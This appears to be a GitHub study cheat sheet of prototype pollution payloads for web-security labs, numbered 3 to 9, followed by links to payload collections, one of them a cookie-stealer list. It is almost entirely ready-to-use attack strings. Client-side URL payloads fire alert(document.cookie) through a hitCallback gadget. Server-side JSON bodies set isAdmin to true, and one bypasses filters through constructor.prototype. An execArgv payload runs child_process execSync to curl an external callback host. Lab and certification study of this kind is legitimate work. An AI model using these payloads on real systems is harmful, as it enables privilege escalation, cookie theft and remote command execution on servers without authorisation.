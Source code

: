 ```
3. Client-side prototype pollution via flawed sanitization
```
https://site.com/?__pro__proto__to__[transport_url]=data:,alert(1)
vulnerable-website.com/?__pro__proto__to__.gadget=payload
```
4. Client-side prototype pollution in third-party libraries
```
https:/site.com/#__proto__[hitCallback]=alert(document.cookie)
```
5. Client-side prototype pollution via browser APIs
```
https://site.com/?__proto__[value]=data:,alert(1)
```
6. Privilege escalation via server-side prototype pollution
```
Billing and Delivery Address:
"__proto__": {
    "isAdmin":true
}
```
7. Detecting server-side prototype pollution without polluted property reflection
```
"__proto__": {
 "status":555
}
```
8. Bypassing flawed input filters for server-side prototype pollution
```
 "constructor":{
"prototype":{
"isAdmin":true
}}
```
9. Remote code execution via server-side prototype pollution
```
"__proto__":
{"execArgv": [
  "--eval=require('child_process').execSync('curl https://kmazepmj6dq3jzpk2e4ah7fzuq0ho9cy.oastify.com')"
]}
```
## MORE MORE AND MORE
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)  
[HackTricks](https://book.hacktricks.xyz/)
[XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
[payloads](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/payloads/CookieStealer-Payloads.md)

## To Do:
* mindmap and algorhithm of detecting triggers for vulnerabilities
